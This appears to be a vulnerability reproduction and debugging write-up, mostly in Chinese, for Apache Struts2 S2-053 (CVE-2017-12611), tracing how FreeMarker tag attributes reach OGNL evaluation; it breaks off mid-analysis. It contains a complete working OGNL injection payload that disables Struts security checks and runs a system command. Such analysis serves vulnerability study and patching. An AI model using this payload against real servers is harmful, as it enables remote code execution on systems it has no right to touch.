



# S2-053 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                                     |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1           |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team David Greene <david at trumpetx dot com>Roland McIntosh <struts at rgm dot nu> |
| CVE Identifier          | CVE-2017-12611                                               |

## Problem

当在Freemarker中使用表达式文本或强制表达式时，可能会导致远程代码执行。

```xml
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />
<@s.hidden name="${redirectUri}"/>
```

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC



payload:

```xml
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

## Debug

根据漏洞描述猜测，漏洞在Freemarker模板渲染的时候发生。而struts2渲染模板的流程是在所有interceptor执行完成后，通过executeResult进行的。所以在executeResult方法处下个断点开始跟踪：

`s2-053/web/WEB-INF/lib/xwork-core-2.3.24.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:300`


createResult通过获取配置文件struts.xml中的result信息创建Result。由于我们配置的是`<result name="success" type="freemarker">index.ftl</result>`，所以创建的Result类型为FreemarkerResult。跟入execute方法：



conditionalParse方法之前见到过多次（见s2-016分析）， 该函数用于处理跳转地址location，会判断location是否有`ognl`表达式，有的话将会执行表达式。但是跟了一遍没发现执行payload，说明struts2是没问题的，继续往下进入FreemarkerResult的doExecute方法：

```java
public void doExecute(String locationArg, ActionInvocation invocation) throws IOException, TemplateException {
        ...
        String absoluteLocation;
        if (this.location.startsWith("/")) {
            absoluteLocation = this.location;
        } else {
            String namespace = invocation.getProxy().getNamespace();
            if (namespace != null && namespace.length() != 0 && !namespace.equals("/")) {
                if (namespace.startsWith("/")) {
                    absoluteLocation = namespace + "/" + this.location;
                } else {
                    absoluteLocation = "/" + namespace + "/" + this.location;
                }
            } else {
                absoluteLocation = "/" + this.location;
            }
        }

        Template template = this.configuration.getTemplate(absoluteLocation, this.deduceLocale());
        TemplateModel model = this.createModel();
        if (this.preTemplateProcess(template, model)) {
            try {
                Writer writer = this.getWriter();
                if (!this.isWriteIfCompleted() && this.configuration.getTemplateExceptionHandler() != TemplateExceptionHandler.RETHROW_HANDLER) {
                    template.process(model, writer);
                } else {
                    ...
                }
            } finally {
                this.postTemplateProcess(template, model);
            }
        }

    }
```

首先计算绝对路径absoluteLocation，getTemplate方法获取模板中的Freemarker标签，传入template.process方法解析。一路跟入process()->visit()->accept():


遍历解析每一个Freemarker标签。直接循环至i=2解析payload的标签`<@s.hidden name="${message}"></@s.hidden>`。跟入env.visit() -> accept():



遍历Freemarker标签属性。这里注意到`${message}`在经过valueExp.eval()方法后被替换成payload，跟入eval方法至this.rootDataModel.get(name)方法，有点绕，具体流程可参考下图调用栈。

可以看到，Freemarker对`${message}`表达式进行了一次解析，并将解析后的值放入Map。


回到accept继续执行，进入visitAndTransform()。【省略一段繁琐的调试...】

最后发现了熟悉的translateVariables()方法，调用evaluate方法解析了payload中的ognl表达式。调用栈如下：


发现执行tc.afterBody()后弹出计算器（将payload中命令换为calc，方便知道哪里发生命令执行）。跟入afterBody()，

